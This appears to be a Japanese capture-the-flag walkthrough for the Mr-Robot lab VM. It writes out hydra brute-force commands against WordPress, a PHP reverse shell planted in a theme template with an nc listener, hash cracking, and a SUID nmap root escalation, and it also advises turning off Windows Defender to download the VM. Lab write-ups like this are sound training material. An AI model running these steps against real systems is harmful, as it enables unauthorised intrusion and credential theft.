 ## Mr-Robot 788~

## ダウンロードできない問題
- WindowsDefenderがウィルスを感知してダウンロードできないので、ネットでoffにするのを調べてからダウンロードする。ダウンロードしたら、Defenderをまた有効にする

1. 「スタート」ボタン-「設定」の順にクリックします。
2.  Windowsの設定が表示されたら、「更新とセキュリティ」- 「Windows セキュリティ」-「ウイルスと脅威の防止」の順にクリックします。
3.  Windowsのセキュリティ画面が表示されたら、「ウイルスと脅威の防止の設定」にある「設定の管理」をクリックします。
4. 「リアルタイム保護」の設定を「オフ」に切り替えて、「はい」をクリックします。

## wordpressにログインできない
- 一度最後まで通してやるとログインできなかったり不都合があるので、もう一度削除してインストールをする

### ポートスキャンまで同じ
- 22はcloseになっているので注意
- 80, 443
### ブラウザでアクセスする
- サイトを探索する
- robots.txtを見る
  - `curl $IP/robots.txt`


### ダウンロードしたファイルの整理
- このファイルはhydraの辞書として使う。
- `wget http://192.168.56.116/key-1-of-3.txt`
- `wget http://192.168.56.116/fsocity.dic`
- fsocity.dicの中味を確認して、多いので整理する
  - `cat fsocity.dic`
  - `wc fsocity.dic`
  - `cat fsocity.dic | sort | uniq > filtered_fsocity.dic`

### 解きやすいように小さいファイルを作る
- ここではユーザ名とパスワードがわかっているとして、学習のため小さいファイルを作る
- `grep -A 5 -B 10 ER28 filter_fsocity.dic > short-txt.dic`
- `grep -C 10 elliot filter_fsocity.dic >> short-txt.dic` 

### NIKTO
- `nikto -h $URL` 結構時間がかかる
- いくつかサイトがあるのでメモっておく
  - `/wp-login.php` 
  - `/license.txt`

### ユーザログインのパスワードを見つける(3通りある)
- (1)ファイルに書いてある
  - `/license.txt`の一番下に怪しい文字列があるのでコピーしておく
  - さっきの文字列の最後に`=`があったのでbase64で暗号化されていると思われるので、でコードする
  - `echo ペースト | base64 --decode`
  - ユーザ名(elliot)とパスワード(ER28-0652)がわかる
- (2)hydraを使う
  - `hydra $IP -L short-txt.dic -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:username"`
  - elliotが見つかる
  - `hydra $IP -l elliot -P short-txt.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:is incorrect"` 

- (3)wpscanを使う
  - `wpscan --url http://$IP --usernames short-txt.dic --passwords short-txt.dic` 

### wordpressのユーザにログインする
- `http://192.168.56.116/wp-login`
- ユーザ名とパスワードを入力するとダッシュボードにアクセスできる

### phpリバースシェルの準備
- この2つのどちらからでもいいのでコードをコピーしてくる
  - cd /usr/share/webshells/php ; cat php-reverse-shell.php
  - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- ダッシュボードで`Appearance`->`Editor`->`404 Template`を選んで、一度全部削除してさっきのコピーをペーストする
- コードの中の一部を書き換える
  - IPアドレスをParrotOSのアドレス
  - ポート番号は5555とする
- 下の方にupdate fileボタンがあるので押す

### リバースシェルの待ち受け
- ParrotOSでもうひとつターミナルを開けて次のコマンドを打つ
- `nc -nlvp 5555`
  - もしncコマンドがなければ、NATにつなげて`sudo apt install netcat-traditinal`でインストールする 
- ブラウザでサイトにアクセスするとシェルを取得できる
  - `http://ターゲットサーバのIPアドレス/404.php`
- いつも通りにPythonで対話型シェルにする
  - `python -c "import pty; pty.spawn('/bin/bash')"`
  - daemonユーザになる

### daemonユーザでいつもの試す
- ユーザを取得したらすること
  - `sudo -l` パスワードがわからない
  - `SUID` nmapコマンドはない 

### LinEnum.shを試す
- linenum.shはlinpeas.shのような、権限昇格の情報を与えてくれるスクリプト。
- 今回はスクリプトを`/opt`に置く。ここは自分のホーム以外なのでroot権限が必要
- `sudo wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`
- `sudo chmod +x LinEnum.sh`
- ParrotOS側
  - `python -m http.server 8080`
- TargetServer側
  - `wget http://IPアドレス:8080/LinEnum.sh`   
  - `chmod +x LinEnum.sh`
  - `./LinEnum.sh`

### システム内を探索する
- `cd /home/robot ; ls`
- `cat password.raw-md5`暗号があるので、コピーする
- 解読させる方法は3通りある

### (1)オンラインハッシュクラッカーでハッシュ値を解読する
- 本ではサイトを使っている。md5は元に戻せないので、オンラインサイト(Crack Station)の辞書で戻す
- 答えを書いておくと
  - abcdefghijklmnopqrstuvwxyz

### (2)hashcatでハッシュ値を解読する
- c3fのとこにペーストする
- `hashcat 'c3f~' /usr/share/wordlists/rockyou.txt -m 0`

### (3)john the ripperでハッシュ値を解読する
- なぜか、これはできない
- john the ripperでもできる。ただし暗号の種類が書いていないので--fomatで自分で指定する。しないとエラーになる
- hash.txtは`ユーザ名:ハッシュ値`の形式にする
- `sudo john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
### 別のユーザに切り替える
- `su robot`

### SUIDファイルを探索する
- `find / -perm -u=s  -type f 2> /dev/null`

### SUIDファイルを利用して、ルートシェルを取得する
- `nmap --interactive`
- `!sh`

### フラグを取得する
- `cd /root; cat key-3-of-3.txt`
